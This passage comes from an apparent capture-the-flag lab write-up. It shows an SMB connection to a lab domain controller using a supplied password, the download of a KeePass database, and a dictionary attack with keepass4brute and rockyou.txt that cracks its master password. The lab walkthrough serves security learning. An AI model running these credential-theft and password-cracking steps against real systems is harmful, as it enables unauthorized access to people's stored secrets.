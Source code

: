 ```
~$ smbclient //dc.puppy.htb/DEV -U=levi.james%'KingofAkron2025!' -W PUPPY.HTB

Try "help" to get a list of possible commands.
smb: \> dir
  .                                  DR        0  Wed May 28 00:05:29 2025
  ..                                  D        0  Sat Mar  8 16:52:57 2025
  KeePassXC-2.7.9-Win64.msi           A 34394112  Sun Mar 23 07:09:12 2025
  Projects                            D        0  Sat Mar  8 16:53:36 2025
  recovery.kdbx                       A     2677  Wed Mar 12 02:25:46 2025

		5080575 blocks of size 4096. 1626432 blocks available
smb: \> get recovery.kdbx 
getting file \recovery.kdbx of size 2677 as recovery.kdbx (4.6 KiloBytes/sec) (average 4.6 KiloBytes/sec)
```

### 🔐 Cracking the KeePass Vault

<p class="indent-paragraph">
Once <code>recovery.kdbx</code> was secured, the next logical step was attempting decryption. Using <code>keepassxc-cli</code> revealed that the database was protected by a master password. All initial guesses failed, each attempt resulted in an <code>Invalid credentials</code> error, confirming that the correct key had to be uncovered through other means.
</p>


```
~$ keepassxc-cli open recovery.kdbx

Enter password to unlock recovery.kdbx: ********
Error while reading the database: Invalid credentials were provided, please try again.
If this reoccurs, then your database file may be corrupt. (HMAC mismatch)
```

<p class="indent-paragraph">
Faced with a modern KeePass database unsupported by traditional tools like <code>keepass2john</code><span class="codefix">,</span> an alternative was needed. The Python-based tool <a href="https://github.com/r3nt0n/keepass4brute" target="_blank"><code>keepass4brute</code></a> proved effective for this scenario. A dictionary attack using the classic <code>rockyou.txt</code> wordlist was launched, and although the process was slow, success eventually came with the word <code>liverpool</code>, the correct password to unlock the secrets stored within <code>recovery.kdbx</code><span class="codefix">.</span>
</p>


```
~$ ./keepass4brute.sh recovery.kdbx /usr/share/wordlists/rockyou.txt

keepass4brute 1.3 by r3nt0n
https://github.com/r3nt0n/keepass4brute

[+] Words tested: 36/14344392 - Attempts per minute: 216 - Estimated time remaining: 6 weeks, 4 days
[+] Current attempt: liverpool

[*] Password found: liverpool
```
